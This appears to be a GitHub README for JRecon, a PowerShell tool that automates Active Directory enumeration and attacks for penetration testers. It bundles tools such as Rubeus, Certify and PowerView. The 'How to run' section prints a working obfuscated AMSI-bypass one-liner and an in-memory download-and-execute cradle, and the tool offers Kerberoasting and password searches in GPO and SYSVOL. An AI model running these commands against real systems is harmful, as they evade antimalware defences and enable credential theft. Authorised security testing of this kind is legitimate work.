 # JRecon
### A tool to automate Active Directory Enumeration
I've been working on this tool to automate a good part of the initial AD enumeration phase that I always go through at the very start of every AD test.

### What can JRecon do for you ?

JRecon will initially ask you if you want to download tools like Nessus, WinShareEnum, AdvIPScanner, HFS, VirtualBox, and Kali OS

It will then ask you the following:

Do you want to run the initial Domain Enumeration ?

Do you want to run BloodHound Collection ?

Do you want to download and run PingCastle ?

Do you want to enumerate Readable Shares ?

Do you want to use PingCastle to enumerate shares ?

Do you want to enumerate Writable Shares ?

Do you want to run a URL File Attack ?

Do you want to run a Kerberoast (and ASREPRoast) attack ?

Do you want to check for presence of Kerb Tickets in your local machine ?

Do you want to check for Misconfigured Certificate Templates ?

Do you want to enumerate for Vulnerable GPOs ?

Do you want to enumerate LDAP Signing ?

Do you want to check for Exploitable Systems ?

Do you want to search for Passwords in GPO ?

Do you want to search for Passwords in SYSVOL/Netlogon ?

### How to run ?

First bypass AMSI (example below)

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Set a variable to download your licensed version of PingCastle

(If you skip this step PingCastle Free Edition will be downloaded - Not for commercial use)

```
$jpingdownload = "<URL>"
```

You can set the variable "$jYesToAll" to "All" (before running the tool) to make it run without asking questions

This feature is probably best to use if you know the tool already, and you know it won't go out of scope

```
$jYesToAll = "All"
```

Finally, invoke and run the tool on memory (don't make it touch disk)

```
iex(new-object net.webclient).downloadstring('')
```

## JRecon is a collection of other scripts and tools

### Which tools are included?


**Rubeus**

Rubeus is a C# toolset for raw Kerberos interaction and abuses.

@Credit to: https://github.com/GhostPack/Rubeus && https://github.com/gentilkiwi/kekeo/
 

**Grouper3**

Find vulnerabilities in AD Group Policy, but do it better than Grouper2 did.

@Credit to: https://github.com/Group3r/Group3r
 

**Certify**

Active Directory certificate abuse. 

@Credit to: https://github.com/GhostPack/Certify


**LdapSignCheck**

C# project to check LDAP signing.

@Credit to: https://github.com/cube0x0/LdapSignCheck


**PingCastle** (Free Edition - **Not for commercial use**)

Get Active Directory Security at 80% in 20% of the time

@Credit to: https://github.com/vletoux/pingcastle


**SharpHound**

C# Data Collector for the BloodHound Project

@Credit to: https://github.com/BloodHoundAD/SharpHound


**ADRecon**

ADRecon is a tool which gathers information about the Active Directory

@Credit to: https://github.com/sense-of-security/ADRecon


**Invoke-Kerberoast**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1


**PowerView**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1


**Invoke-ShareFinder**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/darkoperator/Veil-PowerView/blob/master/PowerView/functions/Invoke-ShareFinder.ps1


**AmsiScanBuffer bypass**

Author: Rasta Mouse (@_RastaMouse)

@Credit to: https://twitter.com/_RastaMouse


**Get-ExploitableSystems**

Author: Scott Sutherland (@_nullbind)

@Credit to: https://github.com/nullbind/Powershellery/blob/master/Stable-ish/ADS/Get-ExploitableSystems.psm1


**Get-GPPPassword**

Author: Chris Campbell (@obscuresec)

@Credit to: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
